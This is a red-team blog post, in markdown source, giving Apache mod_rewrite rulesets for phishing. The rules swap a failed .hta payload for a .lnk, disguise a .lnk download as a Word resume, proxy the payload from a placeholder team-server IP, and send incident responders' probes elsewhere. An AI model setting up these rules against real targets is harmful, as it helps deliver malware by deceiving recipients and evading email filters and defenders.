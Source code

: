 ```yaml
---
layout: post
title: Apache mod_rewrite Grab Bag
summary: Using Apache mod_rewrite to hot-swap payloads, obfuscate payload file extensions, block non-standard HTTP methods, and use an alternate method to redirect requests for invalid URIs.
tags: 
- mod_rewrite
- phishing
image: /assets/apache/payload-file-extension-obfuscation.gif
commentIssueId: 18
---
```


Apache mod_rewrite provides conditional redirection and obfuscation to a red teamer's infrastructure. I've previously written about mod_rewrite in [a few posts]({{site.baseurl}}/topics/mod_rewrite). In this post, I will cover a few quick tricks you can use in conjunction with techniques from my earlier posts while phishing or red teaming.

Be sure you read the [first-time setup instructions]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection#first-time-apache-setup) for mod_rewrite to configure your server to work properly. 

# Payload Hot-Swapping
We've all been in a situation where, just after sending out a large phishing batch, we realize that some aspect of the payload doesn't work in the target environment. Previously, the batch would be burned. With mod_rewrite, we can create a ruleset to redirect requests for the original payload and redirect it to a new payload.

Let's say our original payload, `BonusesAndSalaries2017.hta`, didn't work and we want to replace it with `BonusesAndSalaries2017.lnk`. We could use the following htaccess ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/BonusesAndSalaries2017.hta$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/BonusesAndSalaries2017.lnk </span><span style="color: tomato"> [L,R=302]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">matches our original payload, BonusesAndSalaries2017.hta, </span><br>
<span style="color: gold">Change the request </span> <span style="color: orange">to serve /BonusesAndSalaries2017.lnk. </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span></div>

Delete the original payload and put the above ruleset in an htaccess file in the web root of the server hosting the original payload. While this technique works as a reaction a phishing issue, it also works proactively. By using a generic link (such as `/BonusesAndSalaries2017`) in the email, you can quickly modify the third line of the htaccess file to serve up your next payload.

# Payload File Extension Obfuscation
Similar to payload hot-swapping, we can use mod_rewrite to help our phishing email look more believable to targets and email security appliances by hiding our payload's true file extension. Imagine we are going to use an lnk payload, but want end-users to think they're clicking on a link to a Word document. If our email used the `<a>` tags to obfuscate the link, a mouse-over or copy and paste thwarts the plan. Not to mention the fact that display text that doesn't match the hyperlink destination raises your score in many spam filters.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/JackBrownResume.docx?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/JackBrownResume.lnk</span><span style="color: tomato"> [L,R=302]</span><br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/JackBrownResume.lnk?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-IP/<span style="color: dodgerblue">JackBrownResume.lnk</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is /JackBrownResume.docx (the link we put in the phishing email body), </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to /JackBrownResume.lnk (the actual payload). </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is /JackBrownResume.lnk (the payload we want to serve), </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to serve </span><span style="color: dodgerblue">/JackBrownResume.lnk</span><span style="color: orange"> from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span>
</div>

The mod_rewrite ruleset will redirect our docx link to the lnk and trigger a download in the end-user's browser. 

Here is a demo of this ruleset in action:

![Payload File Extension Obfuscation Demo](/assets/apache/payload-file-extension-obfuscation.gif)

# 404 Redirection

In my post [Invalid URI Redirection with Apache mod_rewrite]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite/), I covered a method of redirecting invalid URI requests to a chosen page. That method involves manually specifying allowed URIs, regardless of files present in the web directory on your server. 

We can accomplish a similar function by redirecting all requests for nonexistent resources (404s) to a different page:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
ErrorDocument 404 <span style="color: dodgerblue">http://REDIRECTION-URL.com/</span><br></div>
 
If you are only using your Apache server for redirection this is a quick method of filtering requests for invalid URIs. But, keep in mind that Apache will serve any valid files requested

# Block Non-Standard HTTP Methods
Just as pentesters will use non-standard HTTP methods to gather intelligence from a target server, incident responders can use these HTTP methods against our infrastructure. To reduce that risk, we can allow GET and POST requests and redirect all others with the following ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_METHOD}</span> <span style="color: mediumseagreen">!^(GET|POST)</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com</span><span style="color: tomato"> [L,R=302]</span><br></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's HTTP Method </span> <span style="color: mediumseagreen">is not GET or POST, </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to http://REDIRECTION-URL.com. </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br></div>

# Summary

Apache mod_rewrite provides a multitude of functionality that is useful for offensive security assessments. With the mod_rewrite techniques covered in this post, we can conditionally redirect web requests to obfuscate our backend infrastructure and point incident responders in the wrong direction. The techniques covered in this post can be combined with other [previously covered]({{site.baseurl}}/topics/mod_rewrite) techniques to even greater effect.

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)